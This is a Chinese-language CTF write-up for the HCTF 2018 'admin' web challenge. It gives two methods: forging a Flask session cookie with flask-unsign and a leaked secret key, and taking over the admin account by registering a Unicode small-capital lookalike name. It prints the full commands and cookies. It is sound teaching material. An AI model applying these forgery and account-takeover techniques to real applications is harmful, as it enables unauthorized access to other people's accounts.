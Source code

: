 # \[HCTF 2018]admin

## \[HCTF 2018]admin

## 考点

* flask session伪造
* Unicode欺骗

## wp

### 第一种做法

注册登录后，在change password处给了源码

![](<../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png>)

打开可以看到是flask的源码，结合题目，可以判断要伪造admin。在config.py中找到`SECRET_KEY = os.environ.get('SECRET_KEY') or 'ckj123'`

然后就可以使用flask-unsign了

```
flask-unsign --decode --cookie .eJxFkMFuwjAQRH-l2jOH2JALEhfkYgVpbYXaidYXREMgcWwqB VAhiH9vWlXtHHekNzvzgO2hr88NzC_9tZ7Att3D_AEv7zAHjJZpaVPihUeJXAmb4rDqXMwTNaiA0t50uYlkcEa-mpIJgcqicRJTMlVCZt05gwyFa5V85WhyjkPFtVAN-ow5UbTKuKgGGu_rgGLjnbQM_apDs_QU6Y5-GXDIUhSrTvFsOmbftQhB-cIrmTEa8k803QKeE6jO_WF7-ejq03-FEm8Uv-NHVDm-I3JGPEtVtAmaTaPFPmhxnCpTzbRARiUyly9-cG3cHes_EpXszf46p10cDdiNgglcz3X_MxuwBJ5fW9tqTg.YkqrwA.DOP8oMc0Qa4fnCrwx4twEYRYRvY
```

得到的内容为

```
{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}
```

在用`SECRET_KEY`重新加密

```
flask-unsign --sign --cookie "{'_fresh': True, '_id': b'2e58e9cec0c645931dfd473e0e19dfa38b77a9eaeadc9a74a2de3506b4a614637683a225d5b56f76632e04cde521d10cbf220e32901d7b7fd289e65c4b5c4019', 'csrf_token': b'1c1bfb4f21bdd45cb96e414a87e887578835ac5e', 'image': b'amRQ', 'name': 'aaaa', 'user_id': '10'}" --secret 'ckj123'
```

得到session，再用这个session访问index即可

```
.eJxFkF9rwjAUxb_KuM8-NNG-CL5IZqhwE-qSlpsXcbXapomDqkwrfvd1Y2yv58Dv_HnA9tDX5wbml_5aT2Db7mH-gJd3mANGy7S0KfHCo0SuhE1xWHUu5okaVEBpb7rcRDI4I19NyYRAZdE4iSmZKiGz7pxBhsK1Sr5yNDnHoeJaqAZ9xpwoWmVcVAON-jqg2HgnLUO_6tAsPUW6o18GHLIUxapTPJuO2XctQlC-8EpmjIb8E023gOcEqnN_2F4-uvr0P6HEG8Xv-BFVjnVEzohnqYo2QbNptNgHLY5TZaqZFsioRObyxQ-ujbtj_Ueikr3ZX-e0i6MBu31sTzCB67nuf34DlsDzC8rTatM.YkqtdA.cL66rcW3NKmN-aZXI_13u1zyH8g
```

### 第二种做法

使用Unicode欺骗。本题在获取参数时使用了自定义的strlower函数，nodeprep.prepare对应的库为[https://github.com/twisted/twisted](https://github.com/twisted/twisted)

```python
def strlower(username):
    pytusername = nodeprep.prepare(username)
    return username
```

nodeprep.prepare函数会把[Latin Letter Small Capital](https://unicode-table.com/en/1D00/)先转为大写再转为小写，即

```
ᴀ -> A -> a
```

那就可以先注册ᴀdmin，再修改密码，再以admin身份登录

## 小结

1. [一题三解之2018HCTF admin](https://www.anquanke.com/post/id/16408)
2. [从一道题深入mysql字符集与比对方法collation](https://skysec.top/2018/03/21/%E4%BB%8E%E4%B8%80%E9%81%93%E9%A2%98%E6%B7%B1%E5%85%A5mysql%E5%AD%97%E7%AC%A6%E9%9B%86%E4%B8%8E%E6%AF%94%E5%AF%B9%E6%96%B9%E6%B3%95collation/)
